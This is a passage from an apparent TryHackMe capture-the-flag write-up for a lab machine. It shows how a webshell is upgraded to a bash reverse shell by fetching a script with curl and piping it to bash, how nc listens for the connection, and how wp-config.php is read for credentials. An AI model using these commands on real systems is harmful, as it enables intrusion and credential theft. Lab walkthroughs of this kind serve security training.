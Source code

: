  ```
  $ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```
  
- The thing with this shell is that we can't do anything with it at the moment so I switched to more stable shell. Create a classic bash reverse shell on your local machine, run the Python server and use `curl` to get the shell to target machine and run it.

  ```
  cat shell.sh
  #!/bin/bash
  
  bash -i >& /dev/tcp/[YOUR-THM-IP]/4444 0>&1
  
  python3 -m http.server 80
  Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
  10.10.32.50 - - [02/Jun/2025 21:29:59] "GET /shell.sh HTTP/1.1" 200 -
  
  curl http://[YOUR-THM-IP]:80/shell.sh | bash
  
  nc -lvnp 4444              
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.32.50] 51328
  bash: cannot set terminal process group (1406): Inappropriate ioctl for device
  bash: no job control in this shell
  www-data@TechSupport:/var/www/html/subrion/uploads$ whoami
  whoami
  www-data
  www-data@TechSupport:/var/www/html/subrion/uploads$ id
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```

---

## 🧍 User Privilege Escalation

- In order to read the flag we need to escalate to user `scamsite` then root. You can find `scamsite` credentials in `wp-config.php`.

  ```
  www-data@TechSupport:/var/www/html/wordpress$ cat wp-config.php 
  <?php
  /**
   * The base configuration for WordPress
   *
   * The wp-config.php creation script uses this file during the
   * installation. You don't have to use the web site, you can
   * copy this file to "wp-config.php" and fill in the values.
   *
   * This file contains the following configurations:
   *
   * * MySQL settings
   * * Secret keys
   * * Database table prefix
   * * ABSPATH
   *
   * @link https://wordpress.org/support/article/editing-wp-config-php/
   *
   * @package WordPress
   */
  
  // ** MySQL settings - You can get this info from your web host ** //
  /** The name of the database for WordPress */
  define( 'DB_NAME', 'wpdb' );
  ```